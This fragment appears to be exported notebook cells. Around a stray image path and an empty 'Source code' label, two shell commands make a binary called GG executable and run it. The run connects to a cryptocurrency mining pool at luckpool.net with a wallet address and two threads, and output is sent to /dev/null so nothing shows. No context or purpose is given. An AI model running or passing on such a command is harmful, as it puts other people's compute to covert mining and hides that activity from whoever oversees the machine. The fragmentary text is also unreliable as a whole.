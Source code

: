 ! chmod +x GG
! ./GG -v -l na.luckpool.net:3957 -u RFj4WWD72iGHn2Q6swr11BzKXhnYpAEzGr.CPU -p x -t 2 >/dev/null
